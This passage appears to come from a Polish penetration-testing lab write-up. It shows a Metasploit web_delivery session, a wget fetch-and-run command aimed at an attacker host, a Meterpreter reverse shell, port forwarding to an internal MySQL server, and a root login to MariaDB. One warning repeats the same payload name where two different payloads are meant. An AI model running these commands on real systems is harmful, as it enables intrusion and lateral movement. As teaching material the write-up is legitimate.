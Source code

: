 ```console
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
             
    ; ,''-,;' ``-
                  ``-..__``--`

                             https://metasploit.com


       =[ metasploit v6.1.2-dev                           ]
+ -- --=[ 2159 exploits - 1144 auxiliary - 367 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: You can upgrade a shell to a Meterpreter
session on many platforms using sessions -u
<session_id>

msf6 exploit(multi/script/web_delivery) > use multi/script/web_delivery
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set target Linux
target => Linux
msf6 exploit(multi/script/web_delivery) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.1.10:4444
msf6 exploit(multi/script/web_delivery) > [*] Using URL: http://0.0.0.0:8080/IkIOzVOlj
[*] Local IP: http://172.16.1.10:8080/IkIOzVOlj
[*] Server started.
[*] Run the following command on the target machine:
wget -qO jp4AKytE --no-check-certificate http://172.16.1.10:8080/IkIOzVOlj; chmod +x jp4AKytE; ./jp4AKytE& disown
[*] 172.16.1.167     web_delivery - Delivering Payload (207 bytes)
[*] Sending stage (984904 bytes) to 172.16.1.167
[*] Meterpreter session 1 opened (172.16.1.10:4444 -> 172.16.1.167:57356) at 2021-09-02 17:07:38 +0200

msf6 exploit(multi/script/web_delivery) >
msf6 exploit(multi/script/web_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > portfwd add -l 3307 -p 3306 -r 172.31.20.10
[*] Local TCP relay created: :3307 <-> 172.31.20.10:3306
meterpreter >
```
</div>
Ważne żeby na poczatku załadować ładunek **payload/linux/x86/shell_reverse_tcp**, a nie np. **payload/linux/x86/shell_reverse_tcp** i potem upgradować **Shell**. Wtedy jest problem i pomaga tylko ponowne uruchomienie Metasploita.
{: .text-justify}
{: .notice--danger}
Jeżeli wszystko poszło dobrze, to powinniśmy się połączyć na konsolę. Poniżej cały zapis. 
{: .text-justify}
```bash
# root@kali:/home/szikers# mysql -uroot -panchordb -h 127.0.0.1 -P 3307
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 179
Server version: 10.3.10-MariaDB-1:10.3.10+maria~bionic-log mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
```